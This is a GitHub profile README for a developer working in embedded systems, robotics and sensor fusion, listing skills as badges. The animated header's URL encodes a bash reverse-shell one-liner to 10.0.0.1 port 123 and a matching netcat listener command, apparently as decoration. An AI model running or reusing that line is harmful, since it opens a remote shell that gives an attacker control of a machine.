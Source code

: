 <div align="center">

  
![Header Image](header_.png)



[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&duration=3000&pause=1000&width=435&lines=Hi+there!+%F0%9F%91%8B%F0%9F%8F%BB;bash+-i%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F123+0%3E%261;nc+-nlvp+123)](https://git.io/typing-svg)

---

### ⚡️ A quick introduction

- 🌱 I’m currently learning about Sensor Fusion. 
- 🤟🏻 I love learning new things until I achieve proficiency. Sometimes it's a sport (biking ...), sometimes it's a hobby (cooking, photography, riding on a circuit...), and at times, it's another OpenSource path (Desktop Robot, Mini Monitor...).
---

### My Skills
<!--   my-skills -->

| Property                                        | Data                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|-------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| **Language / IDE**                              | ![Python Badge](https://img.shields.io/badge/-Python-3776AB?style=flat&logo=Python&logoColor=white) ![Pycharm Badge](https://img.shields.io/badge/-Pycharm-3776AB?style=flat&logo=Pycharm&logoColor=white) ![ESP-IDF Badge](https://img.shields.io/badge/-ESP--IDF-3C4245?style=flat&logo=Espressif&logoColor=white) ![C](https://img.shields.io/badge/-C-66CC66?style=flat&logo=C&logoColor=A8B9CC) ![C++](https://img.shields.io/badge/-C++-66CC66?style=flat&logo=C%2B%2B&logoColor=00599C) ![ROS Badge](https://img.shields.io/badge/-ROS-22314E?style=flat&logo=ROS&logoColor=white) |
| **Domain Knowledge**                            | [![Embedded System Badge](https://img.shields.io/badge/-Embedded%20System-007ACC?style=flat&logoColor=white)](https://github.com/search?q=user%3ABEPb+Embedded+System&type=Repositories) [![Software Development Badge](https://img.shields.io/badge/-Software%20Development-FF6600?style=flat&logoColor=white)](https://github.com/search?q=user%3ABEPb+Software+Development&type=Repositories) [![HIL Test Badge](https://img.shields.io/badge/-HIL%20Test-FFCC00?style=flat&logoColor=white)](https://github.com/search?q=user%3ABEPb+HIL+Test&type=Repositories) [![Vehicle Engineering Badge](https://img.shields.io/badge/-Vehicle%20Engineering-00CC99?style=flat&logoColor=white)](https://github.com/search?q=user%3ABEPb+Vehicle+Engineering&type=Repositories) [![Robotics Badge](https://img.shields.io/badge/-Robotics-006699?style=flat&logoColor=white)](https://github.com/search?q=user%3ABEPb+Robotics&type=Repositories) |
| **CI / CD**                                     | [![Markdown Badge](https://img.shields.io/badge/-Markdown-2088FF?style=flat&logo=Markdown&logoColor=white)](https://github.com/BEPb/BEPb) ![Git](https://img.shields.io/badge/-Git-004400?style=flat&logo=git) ![GitHub](https://img.shields.io/badge/-GitHub-444444?style=flat&logo=github) ![GitLab](https://img.shields.io/badge/-GitLab-444444?style=flat&logo=GitLab) [![Docker Badge](https://img.shields.io/badge/-Docker-2496ED?style=flat&logo=docker&logoColor=white)](https://www.docker.com) [![PyCharm Badge](https://img.shields.io/badge/-PyCharm-000000?style=flat&logo=pycharm&logoColor=white)](https://www.jetbrains.com/pycharm/) [![VS Code Badge](https://img.shields.io/badge/-VS_Code-007ACC?style=flat&logo=visual-studio-code&logoColor=white)](https://code.visualstudio.com/) |
| **Communication**                                      | [![TCP/IP Badge](https://img.shields.io/badge/-TCP%2FIP-FF0000?style=flat&logo=Internet&logoColor=white)](https://en.wikipedia.org/wiki/Internet_protocol_suite) ![RS485](https://img.shields.io/badge/-RS485-007ACC?style=flat) ![Modbus](https://img.shields.io/badge/-Modbus-00CC00?style=flat) ![CANBUS](https://img.shields.io/badge/-CANBUS-FFA500?style=flat) ![UART](https://img.shields.io/badge/-UART-FF4500?style=flat) ![RS232](https://img.shields.io/badge/-RS232-4682B4?style=flat)| 



</div>

